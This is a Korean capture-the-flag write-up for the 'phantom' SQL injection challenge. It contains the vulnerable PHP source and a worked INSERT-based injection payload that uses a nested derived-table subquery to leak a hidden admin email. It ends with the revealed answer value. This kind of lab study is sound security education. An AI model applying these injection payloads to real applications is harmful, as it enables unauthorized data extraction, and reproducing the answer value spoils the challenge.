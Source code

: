 # phantom

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect("phantom");

  if($_GET['joinmail']){
    if(preg_match('/duplicate/i', $_GET['joinmail'])) exit("nice try");
    $query = "insert into prob_phantom values(0,'{$_SERVER[REMOTE_ADDR]}','{$_GET[joinmail]}')";
    mysqli_query($db,$query);
    echo "<hr>query : <strong>{$query}</strong><hr>";
  }

  $rows = mysqli_query($db,"select no,ip,email from prob_phantom where no=1 or ip='{$_SERVER[REMOTE_ADDR]}'");
  echo "<table border=1><tr><th>ip</th><th>email</th></tr>";
    while(($result = mysqli_fetch_array($rows))){
    if($result['no'] == 1) $result['email'] = "**************";
    echo "<tr><td>{$result[ip]}</td><td>".htmlentities($result[email])."</td></tr>";
  }
  echo "</table>";

  $_GET[email] = addslashes($_GET[email]);
  $query = "select email from prob_phantom where no=1 and email='{$_GET[email]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['email']) && ($result['email'] === $_GET['email'])){ mysqli_query($db,"delete from prob_phantom where no != 1"); solve("phantom"); }
  highlight_file(__FILE__);
?>
```

## 2. Condition
- get 파라미터 `joinmail`을 받아, insert 쿼리를 실행한다.   
- insert되는 테이블은 no, ip, email로 이루어져 있고, ip는 `$_SERVER[REMOTEADDR]`로 받아온다.   
&rarr; `$_SERVER[REMOTE_ADDR]`는 웹서버에 접속한 접속자의 ip를 가진다.   
- 이후, database에서 `no=1`이거나 `ip=$_SERVER[REMOTE_ADDR]`라면 배열을 통해 값을 출력해준다.   
&rarr; 단, `no=1`이라면 email은 모자이크처리한다.   
- get 파라미터 `email`을 통해 값을 받고, `no=1`인 컬럼의 이메일 값과 비교 후 입력 데이터들을 초기화 함과 동시에 solve시킨다.   


## 3. Solution
필터링을 `duplicate`만을 하는것으로 큰 힌트를 얻었다.   
`select from where` 등을 통한 테이블 참조가 가능하므로,   
취약한 입력값 `joinmail`을 공략하였다.   


큰 빌드는 이렇다.   
>    INSERT문을 통해 또 다른 컬럼을 생성하여 그 값으로 `no=1`의 email을 집어넣기.    


문제가 간단하기에 내가 겪은 시행착오들을 같이 알아보기로 하자.     
우선, 무작정 쿼리문을 작성해 보았다.    
```sql
1234'), (0,'내 아이피',(select email from prob_phantom where ip='127.0.0.1'))#
```

결과는 실패다. 로컬 mysql에서 동일한 쿼리를 실행시켜보았다.    
```sql
mysql> select * from user;
+----+-------+---------+
| no | id    | pw      |
+----+-------+---------+
|  1 | guest | 1711888 |
|  2 | admin | 1711697 |
|  3 | a1    | 1234    |
|  4 | a2    | 1234    |
|  5 | aa    | 1234    |
|  6 | kkk   | kkk     |
|  7 | jjjj  | jjjj    |
|  8 | bbb   | guest   |
+----+-------+---------+
8 rows in set (0.00 sec)

mysql> insert into user(id,pw) values('adsf','asdf'),('asdf',(select pw from user where id='admin'));
ERROR 1093 (HY000): You can't specify target table 'user' for update in FROM clause
```

찾아본 결과 원인과 해결책은 다음과 같다.   
>    mysql에선 SELECT 부분에서 사용한 동일한 테이블은 변경할 수 없다.   
하지만, 그 사이에 SELECT 문으로 한번 더 감싼다면 참조가 가능하다.   
참고 : https://stackoverflow.com/questions/45494/mysql-error-1093-cant-specify-target-table-for-update-in-from-clause   



다시한번 쿼리를 재구성 해보자.   
```sql
mysql> insert into user(id,pw) values('adsf','asdf'),('asdf',(select * from (select pw from user where id='admin')));
ERROR 1248 (42000): Every derived table must have its own alias
```

또 다시 오류다.   
간단히 마지막 서브쿼리에 alias를 붙여주면 해결된다.   


```sql
mysql> insert into user(id,pw) values('adsf','asdf'),('asdf',(select * from (select pw from user where id='admin')x));
Query OK, 2 rows affected (0.03 sec)
Records: 2  Duplicates: 0  Warnings: 0

mysql> select * from user where id='asdf';
+----+------+---------+
| no | id   | pw      |
+----+------+---------+
| 10 | asdf | 1711697 |
+----+------+---------+
1 row in set (0.00 sec)
```

성공적으로 실행이 된다.   
이제 다시 문제로 돌아가서 최종 쿼리를 입력해보자.   

```sql
1234'), (0,'내 아이피',(select * from (select email from prob_phantom where ip='127.0.0.1')x))#
```

그럼, `no=1`의 email이 들어가 있는것을 확인할 수 있다.   
나온 email값을 get 파라미터 `email`에 넣어 보내주면, 문제가 해결된다.    

변수명 | 값
---|---
`email` | admin_secure_email@rubiya.kr